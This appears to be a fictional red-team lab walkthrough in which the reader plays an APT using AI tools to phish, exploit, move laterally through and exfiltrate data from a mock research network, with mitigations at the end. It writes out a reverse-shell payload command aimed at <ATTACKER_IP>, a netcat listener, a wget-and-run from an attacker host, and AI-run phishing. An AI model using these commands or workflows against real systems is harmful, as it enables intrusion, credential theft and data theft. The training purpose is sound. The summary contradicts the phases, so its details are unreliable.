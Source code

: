 # Operation Neural Ghost

Objective: Act as an APT actor (`APT-99`, "Deep Vector") to leverage AI and machine learning for reconnaissance, vulnerability discovery, phishing, and adaptive command-and-control, specifically targeting MycoSec's Linux-based research network.

Scenario: [MycoSec](entity.md)'s "Cortex" lab network uses standard security tools (firewalls, IDS, basic SIEM). Your goal is to use AI to bypass these defenses, find novel attack paths, and maintain stealthy persistence.

## Phase 1: AI-Assisted Reconnaissance & OSINT

Goal: Use AI to automate target discovery and vulnerability mapping.

Instructions:

1.  Deploy AI Recon Tool:
    *   On your attacker VM, launch the AI-powered reconnaissance tool `DarkTrace` (simulated for the lab).
    *   Command: `python3 darktrace_ai.py --target-domain myco.sec --output scan_results.json`
    *   This tool uses NLP to scrape public sources (GitHub, social media) for employee names, tech stacks, and potential leaks.

2.  Analyze Results with AI:
    *   The tool generates a report. Use an AI summarizer to extract key insights.
    *   Command: `python3 ai_analyzer.py --input scan_results.json --query "top 3 potential vulnerabilities"`
    *   Finding: The AI identifies:
        *   A developer mentioning a "test API" on an internal subdomain: `api-dev.myco.sec:8080`
        *   A old password pattern used in testing environments: `MycoDev[Year]!`
        *   The use of `Jenkins` for CI/CD at `jenkins.myco.sec`

3.  Probe Targets with AI-Generated Scans:
    *   Use an AI tool to generate polymorphic network scans that evade signature-based IDS.
    *   Command: `python3 ai_scanner.py --target api-dev.myco.sec --stealth-mode high`
    *   Finding: The scan reveals the API is running a vulnerable version of `FastAPI` with a known RCE (CVE-2023-xxxx).

Checkpoint: AI has identified a high-value target and a specific vulnerability.

## Phase 2: AI-Powered Social Engineering

Goal: Use a Generative AI to create a highly convincing phishing campaign.

Instructions:

1.  Generate Phishing Lure:
    *   Use a tailored LLM (e.g., a simulated internal tool `PhishGPT`) to craft a phishing email.
    *   Command: `python3 phishgpt.py --template "internal_alert" --target-role "developer" --output phishing_email.html`
    *   The AI generates an email pretending to be from "MycoSec IT Security" urging the developer to reset their password due to a false incident on the `api-dev` server.

2.  Deploy Credential Harvesting:
    *   The AI also generates a flawless clone of the MycoSec SSO login portal.
    *   Command: `deploy_phish_page --url https://myco-sec-login[.]xyz`
    *   Send the phishing email to targets identified in Phase 1.

3.  AI-Powered Interaction:
    *   Use an AI chatbot to handle victim interactions on the phishing site, answering questions to increase legitimacy.
    *   Command: `python3 ai_chatbot.py --port 8443 --persona "IT_Helpdesk"`

Checkpoint: AI has automated the creation and deployment of a highly convincing phishing campaign.

## Phase 3: AI-Enhanced Initial Access

Goal: Use AI to automate exploitation and initial payload delivery.

Instructions:

1.  Generate Polymorphic Payload:
    *   Use an AI tool to create a reverse shell payload that evades static AV analysis by mutating its code signature each time it's generated.
    *   Command: `python3 ai_payload_gen.py --payload linux_reverse_shell --lhost <ATTACKER_IP> --lport 4444 --output payload.py`
    *   Verification: The generated `payload.py` has a unique hash that does not appear on any virus scanning platform.

2.  Exploit the API Automatically:
    *   Use an AI exploitation framework to automatically weaponize the CVE against the `api-dev` server.
    *   Command: `python3 ai_exploit_framework.py --target http://api-dev.myco.sec:8080 --cve CVE-2023-xxxx --payload payload.py`
    *   Success: The framework successfully exploits the vulnerability and executes the payload.

3.  Catch the Shell:
    *   On your attacker VM, receive the reverse shell connection.
    *   Command: `nc -nvlp 4444`
    *   Verification: You have a shell on the `api-dev` server.

Checkpoint: AI has successfully exploited the target and established a foothold.

## Phase 4: Autonomous Lateral Movement

Goal: Use an AI agent to autonomously explore the network and pivot.

Instructions:

1.  Deploy AI Lateral Movement Agent:
    *   Upload and execute the `DeepExplorer` AI agent on the compromised host.
    *   Command (on target): `wget http://<ATTACKER_IP>/DeepExplorer.py && python3 DeepExplorer.py --mode autonomous`
    *   This agent will automatically:
        *   Map the local network
        *   Sniff credentials from memory
        *   Attempt to SSH to other machines using stolen keys or credentials
        *   Identify misconfigured services

2.  Review AI Findings:
    *   The agent reports its findings to your C2 server. Check the dashboard.
    *   Finding: The AI has discovered:
        *   SSH private key in a world-readable `/opt/scripts/` directory on another host (`data-server-03`).
        *   A `sudo` misconfiguration on `data-server-03` allowing the `devuser` to run `vim` as root.

3.  AI-Selected Pivot:
    *   The AI recommends pivoting to `data-server-03` as it is the most critical and vulnerable target. It automatically uses the stolen key to establish a SSH session.
    *   Verification: The AI agent reports: `[+] Successfully pivoted to host: data-server-03`

Checkpoint: An AI agent has autonomously moved laterally to a critical server.

## Phase 5: Adaptive Command & Control

Goal: Use AI to maintain stealthy C2 communication that adapts to network conditions.

Instructions:

1.  AI-Powered C2 Channel:
    *   The `DeepExplorer` agent establishes a C2 channel that uses AI to mimic legitimate network traffic (e.g., mimicking cloud provider API calls or DNS lookups).
    *   Command: The agent auto-selects the best exfiltration method based on network egress rules.

2.  Exfiltrate Data with AI:
    *   The AI identifies and exfiltrates target files from `data-server-03`. It encrypts and chunks the data, embedding it in what looks like normal HTTP traffic.
    *   Finding: The AI reports: `[+] Exfiltration of /opt/research/project_cobalt.tar.gz complete.`

3.  AI-Driven Persistence:
    *   The AI agent chooses the best persistence mechanism based on the environment.
    *   Action: It creates a systemd service on `data-server-03` that uses a domain generation algorithm (DGA) to call home, making it hard to blacklist.

Final Report: The AI system provides a full summary report. Document the key findings:
1.  Initial Vector: AI-driven recon found a vulnerable API endpoint and developer credentials.
2.  Lateral Movement Path: AI autonomously moved from `api-dev` to `data-server-03` via a stolen SSH key.
3.  Privilege Escalation: The AI identified and exploited a `sudo` misconfiguration on the final target.
4.  Exfiltration Method: AI chose DNS tunneling for C2 and exfiltration to avoid triggering firewall alerts.

Mitigations:
1.  Behavioral Analysis: Deploy EDR/NDR that uses its own AI to detect anomalous process chains and network flows, not just signatures.
2.  Zero Trust: Implement strict network segmentation and application allow-listing to limit lateral movement.
3.  AI-Powered Defense: Use defensive AI (like Darktrace or Vectra) to detect the low-and-slow, polymorphic network traffic generated by the attack AI.
4.  User Training: Conduct regular phishing exercises focused on identifying AI-generated content.
5. 